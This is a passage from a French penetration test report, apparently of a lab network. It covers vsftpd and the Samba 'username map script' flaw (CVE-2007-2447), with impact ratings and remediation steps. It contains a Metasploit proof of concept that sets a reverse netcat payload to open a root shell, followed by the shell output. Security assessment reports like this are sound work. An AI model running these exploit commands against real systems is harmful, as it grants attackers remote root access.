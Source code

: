 **Impact** :
- Accès root complet au système
- Exécution de code arbitraire
- Compromission totale de la machine

**Recommandation** :
1. Mettre à jour vsftpd vers la version 3.x
2. Désactiver le service FTP si non nécessaire
3. Utiliser SFTP à la place
4. Implémenter un IDS/IPS

---

### 4.2 Vulnérabilité #2 : Samba "username map script" RCE

| **Attribut** | **Valeur** |
|--------------|------------|
| **Sévérité** | 🔴 **CRITIQUE** |
| **CVSS Score** | 9.8 |
| **CVE** | CVE-2007-2447 |
| **Service** | SMB (port 445) |
| **MITRE ATT&CK** | T1210 - Exploitation of Remote Services |

**Description** :
Samba 3.0.20 permet l'exécution de commandes shell via le paramètre "username" lors de l'authentification.

**Preuve de concept** :
```bash
use exploit/multi/samba/usermap_script
set RHOST 192.168.100.20
set PAYLOAD cmd/unix/reverse_netcat
set LHOST 192.168.100.10
exploit
```

**Résultat** :
```
[*] Started reverse TCP handler on 192.168.100.10:4444
[*] Command shell session 2 opened
uid=0(root) gid=0(root)
```

**Impact** :
- Exécution de code arbitraire avec privilèges root
- Compromission complète du serveur

**Recommandation** :
1. Mettre à jour Samba vers la version 4.x
2. Désactiver le paramètre "username map script"
3. Filtrer les ports SMB au niveau du pare-feu

---